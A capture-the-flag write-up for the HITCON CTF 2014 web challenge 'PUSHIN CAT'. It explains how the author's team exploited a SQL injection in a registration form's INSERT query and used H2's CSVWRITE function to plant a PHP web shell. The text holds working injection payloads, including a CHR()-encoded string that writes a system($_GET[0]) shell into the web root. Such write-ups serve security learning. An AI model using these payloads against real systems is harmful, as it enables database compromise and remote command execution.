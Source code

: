 # HITCON CTF 2014: PUSHIN CAT

**Category:** Web
**Points:** 350
**Description:**

> http://203.66.14.60/

**Hint:**

> The flag is file based. Try to get shell :P

## Write-up

Basically PUSHIN CAT offers only three functionalities: login, registration and the deceptive [“Get flag”](http://203.66.14.60/flag.html). The last one tells us “You are not admin from `X`”, where `X` is our IP address.

The displayed IP address quickly leads down a wrong route because trying to forge a local IP address (e.g. 127.0.0.1) with HTTP headers does not work. However, the registration page seems to be vulnerable to a very basic SQL injection vulnerability, as it responds with a “Query Error” to a single quote in the password field (the detail of the error message seems to have increased since we solved the challenge, so now you even get the surrounding query). Even without seeing the query, one can easily guess that it must be an `INSERT` into the database. After fiddling around with the injection, the format of the SQL query seems to be this one:

```sql
INSERT INTO [something...] VALUES ([some fields], 'INJECTION IN PW', 'IP')
```

This is great news, since the IP value is shown to us when clicking the “Get flag” button. We can further try to obtain the amount of parameters in the query with a multi-INSERT technique: `foo','IP'),(1,2)-- -`. This will insert 2 records into the database. We can continously increase the amount of parameters in the second query until there is no error anymore. This is the case with 4 parameters: `foo','IP'),(1,2,3,4)-- -`.

In order to dump the database schema and content, we can make use of subqueries: The injection syntax is `foo',(select 1))-- -`, where 1 could be any query returning only one row. Additionally, we can use `group\_concat` to group multiple rows together and read out `information_schema.tables` and `information_schema.columns`. From there on we can easily see that the original query roughly looks like this:

```sql
INSERT INTO users (role, username, password, ip) VALUES ('user', $username, $pw (INJECTION HERE), $ip)
```

Using this knowledge, we can build a multi-INSERT injection to create a user with the role “admin”. Logging in with that user and clicking “Get flag” only yields the message “Give shell plz” (IIRC). Another dead end.

A test confirms another interesting property: Multiple SQL statements are allowed in the injection (which is only the case with very few database drivers), so we can use `;` to add other kinds of queries. But let's first re-check the database engine to know our possibilities: The injection `foo',(select version()))-- -` yields `PostgreSQL 8.1.4  server protocol using H2 1.4.178 (2014-05-02)`. Okay, so… Postgres? However, what is this H2 thingy? As it turns out it is the underlying database engine. In order to exploit the server, we can make use of [all functions](http://www.h2database.com/html/functions.html) this database engine exposes. One of them, called `CSVWRITE`, seems to be particularly useful to drop files in the web root. The injection would look like this:

```
foo','');CALL CSVWRITE('/var/www/html/shell.php', 'SELECT 1')-- -
```

As can be seen from the syntax, the second parameter to `CSVWRITE` is a query. This example would write a file called `shell.php` in the web root (we guessed that but could also easily check the Apache configuration with file reading functions). However, the file would only contain a `1`. In order to avoid escaping our own quotes, we can use the `CHR(decimal)` function and the concatenation operator. Here is the resulting injection, using all the tricks:

```
foo','');CALL CSVWRITE('/var/www/html/shell.php', 'SELECT CHR(60)||CHR(63)||CHR(112)||CHR(104)||CHR(112)||CHR(32)||CHR(115)||CHR(121)||CHR(115)||CHR(116)||CHR(101)||CHR(109)||CHR(40)||CHR(36)||CHR(95)||CHR(71)||CHR(69)||CHR(84)||CHR(91)||CHR(48)||CHR(93)||CHR(41)||CHR(59)||CHR(32)||CHR(63)||CHR(62)')-- -
```

In conclusion, a lot of the difficulity of this challenge came from the multiple dead ends and small steps involved. We certainly tried a billion other attacks before finding this exact route to exploit the web application, but we had a lot of fun while doing it ;-)

## Other write-ups and resources

* <https://rzhou.org/~ricky/hitcon2014/pushin_cat/>

